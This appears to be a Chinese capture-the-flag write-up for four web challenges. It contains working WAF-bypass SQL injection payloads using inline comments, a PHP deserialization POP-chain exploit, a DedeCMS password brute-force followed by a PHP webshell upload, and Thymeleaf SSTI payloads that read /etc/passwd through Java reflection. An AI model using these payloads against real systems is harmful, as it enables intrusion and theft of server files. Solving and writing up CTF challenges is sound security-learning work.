






web
AI_WAF
测试sql发现被waf


fuzz发现过滤了这么多，但是加上NexaData后waf变少了，or竟然可以用了

那就多用点NexaData，waf被去除，剩下的就是联合注入


解法二：内联注释绕过
1
|
-1' /*!50000union*/ /*!50000select*/ 1,2,/*!50003*/schema_name/*!50003*/from/*!50003*/information_schema.schemata#
|

1
|
-1'/*!50000union*//*!50000select*/1,2,/*!50003*/table_name/*!50000from*/information_schema.tables/*!50000where*/table_schema='nexadata'#
|

1
|
-1'/*!50000union*//*!50000select*/1,2,/*!50003*/column_name/*!50000from*/information_schema.columns/*!50000where*/table_name='where_is_my_flagggggg'#
|

1
|
-1' /*!50000union*/ /*!50000select*/ 1,2,Th15_ls_f149 from where_is_my_flagggggg#
|

hellogate
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
|
<?php
error_reporting(0);
class A {
public $handle;
public function triggerMethod() {
echo "" . $this->handle;
}
}
class B {
public $worker;
public $cmd;
public function __toString() {
return $this->worker->result;
}
}
class C {
public $cmd;
public function __get($name) {
echo file_get_contents($this->cmd);
}
}
$raw = isset($_POST['data']) ? $_POST['data'] : '';
header('Content-Type: image/jpeg');
readfile("muzujijiji.jpg");
highlight_file(__FILE__);
$obj = unserialize($_POST['data']);
$obj->triggerMethod();
|
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
|
<?php
class A
{
public $handle;
public function triggerMethod()
{
echo 1;
echo "" . $this->handle;
}
}
class B
{
public $worker;
public $cmd;
public function __toString()
{
echo 2;
return $this->worker->result;
}
}
class C
{
public $cmd;
public function __get($name)
{
echo 3;
echo file_get_contents($this->cmd);
}
}
$a = new A();
$a->handle = new B();
$a->handle->worker = new C();
$a->handle->worker->cmd = "/flag";
echo serialize($a);
|

dedecms


想爆破admin发现不行

爆破Aa123456789试试，成功爆破

但是不准从前台登入，从/dede/login.php登入后台

文件上传图片改后缀为php

然后访问uploads/allimg/251228/2-25122Q343120-L.php执行命令即可

EzJava
考点：Thymeleaf渲染之读文件
java且是模板渲染，试试发现是Thymeleaf渲染
Java SSTI注入学习 - kudo4869 - 博客园

Thymeleaf提供了一些内置标签，通过标签来实现特定的功能

测试发现T(…)，new过滤，那只能反射发送，利用 Java 反射机制绕过 T(...) 静态类引用过滤，在 Thymeleaf 模板中动态构造调用链执行 Files.readAllLines，从而读取并回显服务器上的 /etc/passwd 文件。
1
|
<h1 th:text="${#strings.listJoin(''.getClass().forName('java.nio.file.Files').getMethod('readAllLines', ''.getClass().forName('java.nio.file.Path')).invoke(null, ''.getClass().forName('java.nio.file.Paths').getMethod('get', ''.getClass().forName('java.net.URI')).invoke(null, ''.getClass().forName('java.net.URI').getMethod('create', ''.getClass()).invoke(null, 'file:///etc/passwd'))), ',')}">
|

通过反射构造指向根目录的 Path 对象，随后将其转为 File 对象并调用 .list()，从而列出根目录下的所有文件名
1
|
<h1 th:text="${#strings.arrayJoin(''.getClass().forName('java.nio.file.Paths').getMethod('get', ''.getClass().forName('java.net.URI')).invoke(null, ''.getClass().forName('java.net.URI').getMethod('create', ''.getClass()).invoke(null, 'file:///')).toFile().list(), ',')}">
|

1
|
<h1 th:text="${#strings.listJoin(''.getClass().forName('java.nio.file.Files').getMethod('readAllLines', ''.getClass().forName('java.nio.file.Path')).invoke(null, ''.getClass().forName('java.nio.file.Paths').getMethod('get', ''.getClass().forName('java.net.URI')).invoke(null, ''.getClass().forName('java.net.URI').getMethod('create', ''.getClass()).invoke(null, #strings.concat('file:///fl', 'ag_y0u_d0nt_kn0w')))), ',')}">
|